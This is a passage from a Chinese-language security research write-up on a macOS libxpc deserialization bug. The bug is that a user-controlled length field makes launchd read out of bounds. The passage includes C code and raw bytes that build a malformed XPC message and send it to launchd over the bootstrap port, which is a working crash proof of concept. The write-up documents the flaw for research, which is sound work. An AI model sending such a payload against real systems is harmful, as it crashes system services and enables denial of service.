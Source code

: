 注意其中的注释。`// TKTK: Cant do this!! Size is user controlled`。我所做的是构建基础XPC消息结构的原始内存数据，在type类型的基础上进行处理。在这个复杂的类型中，有一个入口叫size，需要设置为XPC对象该部分的整个大小值。但是该值是被消息构建者控制的。所以是不能完全可信的。

当我运行我的反序列化程序来处理导致crash的那段payload时，同样我的代码也在strlen函数处crash了。我告诉自己这不可能是巧合。在对我的反序列化程序进行单步跟踪后，原因就很清晰了，和我的代码一样，libxpc代码信任了这个复杂类型的length值，基于该值增加了指针的值，并认为这就是下一个键的地址。如果你设置了这样的值，程序就尝试去从当前`offset+0xFFFFFFFF`处读取一个字符串，这就导致了一个segfault。

0x05 证明我的猜测
===========

* * *

下一步就是构建一个任意的payload来测试这个理论。当然我想用程序来实现，所以我写了一个库文件，包含一些自定义的xpc_objects将他们序列化打包进一个原始的XPC包中。为了能控制所有XPC对象的数据，我必须重新生成每个自定类型。之后我创建了一个最小的payload来触发crash。

因为这是发送到launchd，我需要一个程序来真实尝试反序列化我的XPC对象。基于一些之前的我对launchctl做的研究，我知道需要发送一个基本的XPC结构。这些包括handle，subsystem，routine键。我用来处理复杂字符串的代码如下：

```
xpc_serialization_value* vals[4] = {0,0,0,0};
vals[0] = create_xpc_serialization_uint64("handle", 1);
vals[1] = create_xpc_serialization_uint64("subsystem", 1);
vals[2] = create_xpc_serialization_string("a", "a");
((xpc_string_value*)vals[2]->value_pointer)->len = -1;
vals[3] = create_xpc_serialization_uint64("routine", 1);
xpc_serialized_object* obj = serialize_xpc_object(vals, 4);
// Print raw bytes of xpc_serialized_object// Output => {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};

```

触发crash的代码：

```
#include <xpc/xpc.h>
void send_payload(void * xpc_payload, unsigned int xpc_payload_size){
        unsigned int size = sizeof(mach_msg_header_t) + xpc_payload_size;
        unsigned char* payload = calloc(size, sizeof(char));

        memcpy(payload+sizeof(mach_msg_header_t), xpc_payload, xpc_payload_size);

        mach_port_t port;
        kern_return_t ret = task_get_bootstrap_port(mach_task_self(), &port);
        mach_msg_header_t *msg = (mach_msg_header_t *)payload;
        msg->msgh_id = 0x10000000;
        msg->msgh_remote_port = port;
        msg->msgh_local_port = MACH_PORT_NULL;
        msg->msgh_bits = MACH_MSGH_BITS_ZERO;
        msg->msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0);

        mach_msg_return_t msg_ret;
        msg->msgh_size = size;
        msg_ret = mach_msg_send(msg);
}

int main(){
        unsigned char payload[] = {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
```